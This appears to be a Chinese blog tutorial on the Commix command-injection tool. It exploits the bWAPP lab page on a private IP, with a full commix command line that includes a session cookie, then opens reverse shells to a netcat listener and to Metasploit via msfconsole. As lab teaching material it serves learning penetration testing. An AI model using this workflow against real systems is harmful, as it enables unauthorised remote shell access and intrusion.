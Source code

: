 ```yaml
---
layout:     post
title:      Commix工具的使用
subtitle:   命令执行漏洞的检测工具
date:       2019-07-22
author:     木已成舟
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 工具使用
---
```

# 安装
安装Commix很简单，Linux下只需要输入以下命令即可：
```
git clone https://github.com/commixproject/commix.git commix
```
Windows系统只要在Github上下载源码下来，用python运行就行：
```
https://github.com/commixproject/commix
```
## 运行环境
Python 2.6.x or 2.7.x
## 运行
python commix.py [options]

# 常用命令
```
-h, --help            显示帮助信息
--verbose             开启详细模式
--install             将“commix”安装到您的系统
--version             显示当前版本
--update              检查更新
--url=URL           目标URL
--url-reload        命令执行后重新加载目标URL
--host=HOST         HTTP Host header.
--referer=REFERER   HTTP Referer header.
--user-agent=AGENT  HTTP User-Agent header.
--cookie=COOKIE     HTTP Cookie header.
--headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
--proxy=PROXY       使用代理 (e.g. '127.0.0.1:8080').
--data=DATA         POST data to inject (use 'INJECT_HERE' tag).
--suffix=SUFFIX     Injection payload suffix string.
--prefix=PREFIX     Injection payload prefix string.
--technique=TECH    Specify a certain injection technique : 'classic',
                    'eval-based', 'time-based' or 'file-based'.
--maxlen=MAXLEN     The length of the output on time-based technique
                    (Default: 10000 chars).
--delay=DELAY       Set Time-delay for time-based and file-based
                    techniques (Default: 1 sec).
--base64            Use Base64 (enc)/(de)code trick to prevent false-
                    positive results.
```
# 检测命令执行漏洞
以bWAPP为靶机进行测试，进入OS Command injection靶场页面

![图片](../../../../img/commix_1.png)

输入一个域名后，使用抓包工具抓取HTTP请求数据包
![图片](../../../../img/commix_2.png)

然后进入Kali Linux 输入以下命令：
```
commix -u "http://10.20.40.147/bWAPP/commandi.php" --data "target=www.baidu.com&form=submit" --cookie "PHPSESSID=a26193b0ef93766968e0b2daae34971f; security_level=0"
```
![图片](../../../../img/commix_3.png)

从上图可以看到，命令执行漏洞被Commix发现，并且我们可以在命令终端上输入任意系统命令
# 反弹shell
下面我们来通过Commix反弹到NC和MSF上。
## 反弹至NC
在Commix检测到存在命令执行漏洞后，会返回一个交互行，输入以下内容后进入选项，要反弹到NC上，在Reverse TCP shells 时选1，Unix-like targets 时 选 1:
```
reverse_tcp
set LHOST your_ip
set LPORT your_port
```
![图片](../../../../img/commix_4.png)
在回车之前，先打开NC 监听端口，下图可以看到成功反弹到了NC上：
![图片](../../../../img/commix_5.png)

## 反弹至MSF
在Commix检测到存在命令执行漏洞后，会返回一个交互行，输入以下内容后进入选项，要反弹到MSF上，在Reverse TCP shells 时选2，Metarpreter reverse TCP shells 时选 8，如果靶场环境搭建在Windows上，可以选择10 。

![图片](../../../../img/commix_6.png)
回车后，会自动生成rc文件，这时我们只要打开一个新的命令终端，输入以下命令：
```
msfconsole -r /usr/share/commix/php_meterpreter.rc
```
下图可以看到，成功反弹到了MSF上
![图片](../../../../img/commix_7.png)


